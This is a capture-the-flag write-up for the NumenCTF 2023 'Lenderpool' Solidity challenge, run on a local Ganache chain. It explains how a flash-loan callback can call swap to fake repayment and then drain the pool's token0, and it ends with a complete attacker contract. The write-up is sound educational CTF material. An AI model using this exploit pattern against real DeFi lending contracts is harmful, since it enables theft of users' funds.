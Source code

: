 # Lenderpool

## Introduction
The objective is to drain all available ``token0`` from ``lenderPool``. 

Here's the source code: https://github.com/numencyber/NumenCTF_2023/blob/main/reca2/contracts/Re.sol


## Environment
These are the IDEs and langauges used to set up the environment.

- Remix IDE

- Ganache-cli


## Setup
Here's a quick setup 

1) Download ganache-cli with ``yarn global add ganache``

2) Run ganache-cli with ``ganache-cli``

3) Go to remix IDE -> Deploy & Run transaction -> Environment -> Choose 'Dev - Ganache Provider'

4) Create a solidity file -> copy and paste the smart contract 

5) Compile and deploy

6) Start messing around

## Code Breakdown

There are 2 contracts to look at **LenderPool** and **Check**

### Check

The first thing to look at is function ``isSolved()``. The clear condition is to drain all ``token0`` from ``lenderPool``.
```
function isSolved()  public view returns(bool){
    if(token0.balanceOf(address(lenderPool)) == 0){
        return  true;
    }
    return false;
}
```

### LenderPool

The next 2 functions to look at is **swap** and **flashLoan**

**flashLoan**

This is a simple flash loan function that can only be called by another smart contract. 

Here's an ELI5 of what it does:
- You can only flash loan ``token0``
- Ensure that the current balance of ``token0`` is equal or more than the amount that is needed to be borrowed
- It calls for the function ``receiveEther(uint256)`` in the calling contract
- It checks the current balance after flash loan to ensure that the amount is the same or more than before the loan.
```
uint256 balanceAfter = token0.balanceOf(address(this)); 
require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
```

**swap**

This function swaps the amount of ``token0`` with ``token1`` vice versa.


## Hints

You'll need to create a smart contract to do the following:

1) Flash loan all available ``token0`` in ``LenderPool``
2) Using the **swap** function, convert ``token1`` to ``token0`` to trick the smart contract into 'returning' the flashloan
3) Using the **swap** function, convert the remaining ``token0`` into ``token1``

## Solutions

The confusing portion is the ``swap`` function.

Here's the detailed breakdown of what is happening.

<em>Note: There is 100000000000000000000 available tokens but for simplicity sake, I'll just put it as 100.</em>

This is the default setup in **LenderPool**

| LenderPool || Attacker||
| - | - | - | - |
| ``token0`` | ``token1`` | ``token0`` | ``token1`` |
| 100 | 100 | 0 | 0 |


After calling ``receiveFlashLoan()``.

<em>Note: Function is based on the solution provided at the bottom</em>
| LenderPool || Attacker||
| - | - | - | - |
| ``token0`` | ``token1`` | ``token0`` | ``token1`` |
| 0 | 100 | 100 | 0 |


**LenderPool** calls for ``receiveEther(uint256)`` in attacker contract

A swap in **LenderPool** is conducted where all ``token1`` is converted to ``token0``.
| LenderPool || Attacker||
| - | - | - | - |
| ``token0`` | ``token1`` | ``token0`` | ``token1`` |
| 100 | 0 | 100 | 0 |



**LenderPool** checks that ``token0`` is the same as before the flashloan.

With that, ``flashLoan`` ended.

Using ``swap`` again, we'll convert existing ``token0`` into ``token1`` in **LenderPool**.
| LenderPool || Attacker||
| - | - | - | - |
| ``token0`` | ``token1`` | ``token0`` | ``token1`` |
| 0 | 100 | 100 | 0 |

As such, **LenderPool** has 0 ``token0``. 

Calling ``isSolved()`` from **Check** will return true.

Here's the attacker smart contract.
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.16;

import './lender_pool.sol';

contract LenderPool_attack {

    LenderPool public lenderPool;
    IERC20 public token0;
    IERC20 public token1;

    constructor(LenderPool _lenderPool){
        lenderPool = LenderPool(_lenderPool);
        token0 = lenderPool.token0();
        token1 = lenderPool.token1();
    }

    function getTokens() public view returns (uint256, uint256){
        return (token0.balanceOf(address(lenderPool)), token1.balanceOf(address(lenderPool)));
    }

    function receiveEther(uint256 amount) external{
        lenderPool.swap(address(token1), amount);
    }

    function receiveFlashLoan() public{
        token0.approve(address(lenderPool), token0.balanceOf(address(lenderPool)));
        token1.approve(address(lenderPool), token1.balanceOf(address(lenderPool)));
        lenderPool.flashLoan(
            token0.balanceOf(address(lenderPool)),
            address(this)
        );
        lenderPool.swap(address(token0), token0.balanceOf(address(lenderPool)));
    }
}
```


